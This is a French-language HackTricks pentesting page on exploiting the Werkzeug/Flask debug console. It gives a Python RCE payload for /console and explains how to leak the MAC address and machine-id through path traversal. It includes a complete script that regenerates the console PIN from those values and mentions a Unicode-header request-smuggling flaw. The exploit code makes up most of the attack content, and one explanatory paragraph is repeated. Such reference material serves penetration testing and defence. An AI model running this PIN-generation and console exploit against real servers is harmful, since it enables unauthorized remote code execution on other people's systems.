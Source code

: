 # Werkzeug / Flask Debug

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, réseau et cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Si le débogage est actif, vous pouvez essayer d'accéder à `/console` et d'obtenir RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Il existe également plusieurs exploits sur Internet comme [celui-ci](https://github.com/its-arun/Werkzeug-Debug-RCE) ou un dans metasploit.

## Protégé par un code PIN - Traversée de chemin

Dans certaines occasions, le point de terminaison **`/console`** sera protégé par un code PIN. Si vous avez une **vulnérabilité de traversée de fichier**, vous pouvez leak toutes les informations nécessaires pour générer ce code PIN.

### Exploit de PIN de la console Werkzeug

Forcez une page d'erreur de débogage dans l'application pour voir cela :
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Un message concernant le scénario "console verrouillée" est rencontré lors de la tentative d'accès à l'interface de débogage de Werkzeug, indiquant qu'un code PIN est requis pour déverrouiller la console. La suggestion est faite d'exploiter le code PIN de la console en analysant l'algorithme de génération de PIN dans le fichier d'initialisation de débogage de Werkzeug (`__init__.py`). Le mécanisme de génération de PIN peut être étudié à partir du [**dépôt de code source de Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), bien qu'il soit conseillé de se procurer le code serveur réel via une vulnérabilité de traversée de fichiers en raison de potentielles divergences de version.

Pour exploiter le code PIN de la console, deux ensembles de variables, `probably_public_bits` et `private_bits`, sont nécessaires :

#### **`probably_public_bits`**

* **`username`** : Fait référence à l'utilisateur qui a initié la session Flask.
* **`modname`** : Désigné généralement comme `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`** : Résout généralement à **Flask**.
* **`getattr(mod, '__file__', None)`** : Représente le chemin complet vers `app.py` dans le répertoire Flask (par exemple, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Si `app.py` n'est pas applicable, **essayez `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`** : Récupère l'adresse MAC de la machine actuelle, avec `str(uuid.getnode())` la traduisant en format décimal.
* Pour **déterminer l'adresse MAC du serveur**, il faut identifier l'interface réseau active utilisée par l'application (par exemple, `ens3`). En cas d'incertitude, **fuite `/proc/net/arp`** pour trouver l'ID de l'appareil, puis **extraire l'adresse MAC** de **`/sys/class/net/<device id>/address`**.
* La conversion d'une adresse MAC hexadécimale en décimal peut être effectuée comme montré ci-dessous :

```python
# Exemple d'adresse MAC : 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`** : Concatène les données de `/etc/machine-id` ou `/proc/sys/kernel/random/boot_id` avec la première ligne de `/proc/self/cgroup` après le dernier slash (`/`).

<details>

<summary>Code pour `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Après avoir rassemblé toutes les données nécessaires, le script d'exploitation peut être exécuté pour générer le PIN de la console Werkzeug :

Après avoir rassemblé toutes les données nécessaires, le script d'exploitation peut être exécuté pour générer le PIN de la console Werkzeug. Le script utilise les `probably_public_bits` et `private_bits` assemblés pour créer un hachage, qui subit ensuite un traitement supplémentaire pour produire le PIN final. Ci-dessous se trouve le code Python pour exécuter ce processus :
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Ce script produit le PIN en hachant les bits concaténés, en ajoutant des sels spécifiques (`cookiesalt` et `pinsalt`), et en formatant la sortie. Il est important de noter que les valeurs réelles pour `probably_public_bits` et `private_bits` doivent être obtenues avec précision à partir du système cible pour garantir que le PIN généré correspond à celui attendu par la console Werkzeug.

{% hint style="success" %}
Si vous utilisez une **ancienne version** de Werkzeug, essayez de changer l'**algorithme de hachage en md5** au lieu de sha1.
{% endhint %}

## Caractères Unicode de Werkzeug

Comme observé dans [**ce problème**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug ne ferme pas une requête avec des caractères Unicode dans les en-têtes. Et comme expliqué dans [**ce rapport**](https://mizu.re/post/twisty-python), cela pourrait causer une vulnérabilité de CL.0 Request Smuggling.

C'est parce qu'il est possible d'envoyer certains caractères **Unicode** dans Werkzeug et cela fera **casser** le serveur. Cependant, si la connexion HTTP a été créée avec l'en-tête **`Connection: keep-alive`**, le corps de la requête ne sera pas lu et la connexion restera ouverte, donc le **corps** de la requête sera traité comme la **prochaine requête HTTP**.

## Exploitation Automatisée

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Références

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Obtenez la perspective d'un hacker sur vos applications web, votre réseau et le cloud

**Trouvez et signalez des vulnérabilités critiques et exploitables ayant un impact commercial réel.** Utilisez nos 20+ outils personnalisés pour cartographier la surface d'attaque, trouver des problèmes de sécurité qui vous permettent d'escalader les privilèges, et utilisez des exploits automatisés pour collecter des preuves essentielles, transformant votre travail acharné en rapports convaincants.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
